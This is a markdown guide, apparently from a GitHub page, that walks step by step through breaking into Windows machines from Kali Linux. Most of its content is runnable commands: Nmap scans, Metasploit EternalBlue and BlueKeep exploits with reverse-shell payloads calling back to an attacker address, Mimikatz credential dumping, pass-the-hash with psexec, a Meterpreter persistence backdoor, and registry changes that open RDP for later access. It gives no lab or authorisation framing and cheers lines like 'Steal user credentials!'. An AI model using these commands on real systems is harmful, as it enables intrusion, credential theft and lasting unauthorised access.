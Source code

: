 ### 🔥 **Exploiting Windows Vulnerabilities Using Kali Linux (Full Guide)**
This guide walks you through **finding vulnerabilities** in a Windows system using **Kali Linux** and **exploiting them** with tools like **Metasploit**, **EternalBlue**, **Mimikatz**, and **Empire**.

---

## **📌 1️⃣ Find Vulnerabilities in Windows**
Before exploiting, you need to scan for open ports, services, and known vulnerabilities.

### ✅ **Scan for Open Ports (Nmap)**
```bash
nmap -sS -sV -O -T4 192.168.1.100
```
- `-sS` → Stealth scan  
- `-sV` → Detects versions  
- `-O` → OS detection  
- `-T4` → Fast scan  

#### **Common Windows Ports to Look For**
| **Port**  | **Service**   | **Vulnerability** |
|-----------|--------------|-------------------|
| 445       | SMB          | EternalBlue (MS17-010) |
| 3389      | RDP          | BlueKeep (CVE-2019-0708) |
| 135,139   | NetBIOS      | SMB vulnerabilities |
| 5985      | WinRM        | Pass-the-Hash attack |
| 1433      | MSSQL        | SQL Injection |

---

## **📌 2️⃣ Exploiting Windows Vulnerabilities**
### 🚀 **Option 1: Exploit SMB with EternalBlue (MS17-010)**
EternalBlue is a well-known Windows exploit.

#### **Step 1: Check for EternalBlue**
```bash
nmap --script=smb-vuln-ms17-010 -p 445 192.168.1.100
```
If it's **vulnerable**, proceed with the exploit.

#### **Step 2: Launch Metasploit**
```bash
msfconsole
```
Search for the exploit:
```bash
search ms17_010
```
Use the exploit:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50  # Your Kali Linux IP
set LPORT 4444
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
💥 **Success!** You now have a **Meterpreter shell**.

#### **Step 3: Gain Full Control**
Inside **Meterpreter**, run:
```bash
sysinfo            # Get system info
getuid             # Check user privileges
hashdump          # Dump user password hashes
shell              # Get a full command prompt
```

---

### 🚀 **Option 2: Exploit Windows RDP with BlueKeep (CVE-2019-0708)**
If RDP (3389) is open, use BlueKeep.

#### **Step 1: Check for BlueKeep**
```bash
nmap -p 3389 --script rdp-vuln-ms12-020 192.168.1.100
```
#### **Step 2: Exploit Using Metasploit**
```bash
msfconsole
search bluekeep
use exploit/windows/rdp/cve_2019_0708_bluekeep
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

---

### 🚀 **Option 3: Exploit Weak Windows Passwords with Mimikatz**
Mimikatz extracts passwords from memory.

#### **Step 1: Upload Mimikatz to the Target**
```bash
upload /usr/share/windows-binaries/mimikatz.exe C:\\Windows\\Temp\\
```
#### **Step 2: Run Mimikatz**
```powershell
mimikatz.exe
sekurlsa::logonpasswords
```
✅ **Steal user credentials!**  

---

### 🚀 **Option 4: Exploit Windows Admin with Pass-the-Hash**
If you got NTLM hashes from **Mimikatz**, use them.

#### **Step 1: Use psexec**
```bash
use exploit/windows/smb/psexec
set RHOST 192.168.1.100
set SMBUser Administrator
set SMBPass <HASH>
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
✅ **Admin access without a password!**  

---

## **📌 3️⃣ Post-Exploitation (Maintaining Access)**
Once inside, **maintain persistence**:

### ✅ **Create a Backdoor**
```bash
meterpreter > run persistence -U -i 5 -p 4444 -r 192.168.1.50
```

### ✅ **Enable Remote Desktop for Future Access**
```powershell
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
Then start RDP:
```powershell
net start termservice
```

---

## **🔥 Conclusion**
You now know how to:
✅ **Scan a Windows machine for vulnerabilities**  
✅ **Exploit SMB, RDP, and weak passwords**  
✅ **Use tools like Metasploit & Mimikatz**  
✅ **Maintain persistence with backdoors**  
